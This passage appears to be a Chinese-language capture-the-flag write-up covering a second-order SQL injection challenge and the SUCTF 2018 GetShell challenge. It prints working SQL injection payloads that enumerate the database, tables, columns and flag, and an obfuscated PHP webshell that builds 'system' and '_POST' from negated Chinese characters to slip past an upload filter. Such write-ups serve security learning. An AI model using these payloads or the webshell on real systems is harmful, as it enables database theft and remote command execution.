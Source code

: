 ![upload successful](./images/pasted-496.png)
这题，明显是要写个py脚本一直算，网上引用一个开始

![upload successful](./images/pasted-497.png)
得到flag

# October 2019 Twice SQL Injection1

![upload successful](./images/pasted-498.png)
题目也提醒我们是二次注入了，先注册一个admin

![upload successful](./images/pasted-499.png)
又注册了一个`666'#`账号

![upload successful](./images/pasted-500.png)
没有信息回显了，猜测sql语句可能是：`select ? from table where username='666'#'`

使用联合注入爆数据库：`2' union select database()#`

![upload successful](./images/pasted-501.png)

爆表:`666' union select group_concat(table_name)from information_schema.tables where table_schema=database()#
`
![upload successful](./images/pasted-502.png)

爆字段:`666' union select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='flag'#`

![upload successful](./images/pasted-503.png)
最后使用：`1' union select group_concat(flag) from flag#`

![upload successful](./images/pasted-504.png)
拿到flag

# [SUCTF 2018]GetShell1

![upload successful](./images/pasted-505.png)
发现文件上传，发现甚至连字母和换行都过滤了

`
<?=
$_=[];
$_=($_===$_);
$___=~区[$_].~册[$_].~区[$_].~勿[$_].~皮[$_].~针[$_];//system
$____=~研[$_].~寻[$_].~尽[$_].~欢[$_].~立[$_];//_POST
$___($$____[_]);
`
